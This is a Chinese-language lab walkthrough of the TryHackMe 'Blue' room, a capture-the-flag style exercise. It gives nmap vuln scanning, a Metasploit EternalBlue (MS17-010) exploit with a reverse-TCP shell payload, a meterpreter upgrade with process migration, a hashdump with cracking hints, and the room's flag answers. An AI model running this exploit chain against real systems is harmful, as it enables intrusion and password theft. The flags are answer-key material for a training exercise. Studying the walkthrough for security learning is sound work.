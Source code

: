 ```yaml
---
description: 本文的相关内容：部署并入侵一台Windows靶机，通过利用常见的Windows错误配置来完成渗透过程。
cover: ../../.gitbook/assets/GosxHyQ.jpg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blue-练习

TryHackMe实验房间链接：[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Recon （侦察-信息收集阶段）

使用nmap进行端口扫描:

```shell
nmap -sV -vv --script vuln 10.10.100.31           #nmap -sV -vv --script vuln TARGET_IP
```

![image-20221006121232447](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006121232447.png)

![image-20221006121440607](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006121440607.png)

**答题卡**

![image-20221006120152100](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006120152100.png)

## Gain Access（获取目标权限）

执行exp在目标机器上获得立足点。

启动msf，搜索exp代码，参考相关选项，设置相关参数，执行exp

```shell
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.100.31
set payload windows/x64/shell/reverse_tcp    #使用默认的payload也可以
run
```

![image-20221006122617559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122617559.png)

![image-20221006122814091](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122814091.png)

**答题卡**

![image-20221006122857577](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122857577.png)

## Escalate （提升权限）

使用命令，将上一步骤中获得的shell转换为meterpreter shell

```shell
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
sessions -l
set SESSION 1
run
sessions -l
sessions -i 2
```

![image-20221006123816402](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006123816402.png)

![image-20221006123910236](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006123910236.png)

得到meterpreter shell之后，迁移当前进程到高权限用户下，以此提升meterpreter权限

![image-20221006124319584](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124319584.png)

![image-20221006124456868](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124456868.png)

![image-20221006124542565](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124542565.png)

**答题卡**

![image-20221006132423216](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132423216.png)

## Cracking （破解密码hash）

转储非默认用户的密码并破解它。

```shell
hashdump
```

![image-20221006132804855](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132804855.png)

直接使用在线网站破解，也可以通过使用rockyou.txt字典结合破解工具进行hash破解。

![image-20221006132730856](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132730856.png)

![image-20221006133808522](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006133808522.png)

**答题卡**

![image-20221006133837807](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006133837807.png)

## Find flags（寻找flag）

使用命令查找flag文件

![image-20221006140158604](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006140158604.png)

![image-20221006140656884](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006140656884.png)

**答题卡**

> flag{access\_the\_machine}
>
> flag{sam\_database\_elevated\_access}
>
> flag{admin\_documents\_can\_be\_valuable}

![image-20221006141555023](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006141555023.png)

